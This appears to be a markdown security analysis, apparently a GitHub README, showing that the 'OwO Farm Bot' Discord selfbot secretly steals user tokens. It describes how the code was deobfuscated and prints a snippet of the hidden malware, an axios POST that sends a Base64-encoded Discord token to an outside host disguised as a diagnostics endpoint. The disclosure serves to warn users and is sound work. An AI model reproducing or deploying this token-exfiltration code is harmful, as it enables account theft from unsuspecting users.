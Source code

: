   LOAD THIS IN MARKDOWN FOR BETTER VIEW

# Security Analysis of OwO Farm Bot

![Image](./image.png)  

# Newer Version
Five months ago, u/ButterflyVisible7532 has [posted a thread](https://www.reddit.com/r/Discord_selfbots/comments/1el9tcr/decent_token_logger_or_not_from_a_famous_selfbot/) accusing u/Mid0aria of spreading malware on his projects.

The claims were true, checking the [ab6a697ce033c495ca6527fd4b391950ea0a36c4](https://github.com/Mid0aria/owofarmbot_stable/tree/ab6a697ce033c495ca6527fd4b391950ea0a36c4) branch will display an old version of OwO Farm Bot, with all of its code deobfuscated. I have deobfuscated the main file, [bot.js](https://github.com/Mid0aria/owofarmbot_stable/blob/ab6a697ce033c495ca6527fd4b391950ea0a36c4/bot.js) with https://webcrack.netlify.app/, then used [Humanify](https://github.com/jehna/humanify), which uses LLMs to give more meaningful names to variables and functions. Which got me [this output](https://github.com/harmlessaccount/owofarmbot-deobf/blob/main/new/owofarmbot-new.js), the output file shows a lot of harmful behaviour embedded into the code. For example, line 282 to line 293 is code for a POST request that will send a Base64 encoded token to `https://syan.anlayana.com/api/diagnosticv2`:
```javascript
        axiosClient.post(

          "https://syan.anlayana.com/api/diagnosticv2",

          "diagnosticv2=" +

            fileData.from(encodeToken(_executeNode.token)).toString("base64") +

            "&project=" +

            discordClient.global.name,

          {

            headers: {
```